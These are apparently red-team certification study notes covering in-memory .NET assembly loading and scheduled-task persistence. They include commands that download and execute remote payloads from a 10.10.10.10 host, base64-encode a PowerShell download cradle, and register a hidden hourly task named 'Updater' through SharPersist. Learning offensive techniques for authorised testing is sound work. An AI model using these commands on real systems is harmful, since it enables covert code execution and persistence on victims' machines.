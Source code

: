 ```yaml
---
title: CRTO Notes
date: 2021-08-04 21:00:00 0000
categories: [RED_TEAM, CRTO]
tags: [C# CRTO REDTEAMING]
---
```


```csharp
[system.reflection.assembly]::LoadFile("file")
 [namespace.class]::Main()
```

Binary reflective loading

```csharp
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/binary.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[binary.Program]::Main("".Split())
```



##Presistance 

###Task Scheduler

Using SharpPresist

```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/payload.ps1"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
The above snippet will produce a Base64 string which will be supplied in the snippet below:
```powershell
.\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc BASE64 ENCODED STRING HERE" -n "Updater" -m add -o hourly
```


    -t --> the desired persistence technique.
    -c --> command to execute.
    -a --> any arguments for that command.
    -n --> the name of the task.
    -m --> to add the task (you can also remove, check and list).
    -o --> the task frequency.

